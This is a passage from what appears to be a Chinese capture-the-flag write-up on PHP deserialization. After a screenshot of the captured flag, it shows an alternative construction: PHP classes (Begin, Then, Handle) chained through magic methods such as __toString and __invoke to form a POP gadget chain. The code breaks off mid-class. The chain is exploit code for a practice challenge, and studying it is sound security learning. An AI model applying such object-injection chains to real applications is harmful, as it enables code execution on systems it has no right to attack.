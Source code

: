得到flag
 ![在这里插入图片描述](assets/3c45ba7ff8f7405ab25c4fd082e8f171.png)



也可以这样构造：

```php
 <?php
 
class Begin{
    public $name;
 
    public function __destruct()
    {
 
    }
}
 
class Then{
    private $func;
	
	public function __construct()
 
    {
 
        $s=new Super();
 
        $this->func=$s;
 
    }
 
    public function __toString(){
        ($this->func)();//这里把Super当函数调用，实际触发了Super()里面的__invoke方法
        return "Good Job!";
    }
}
 
class Handle{
    protected $obj;
	public function __construct()
 
    {
 
        $this->obj=new CTF();//实例化CTF（）后给这里的obj赋值
 
    }
 
```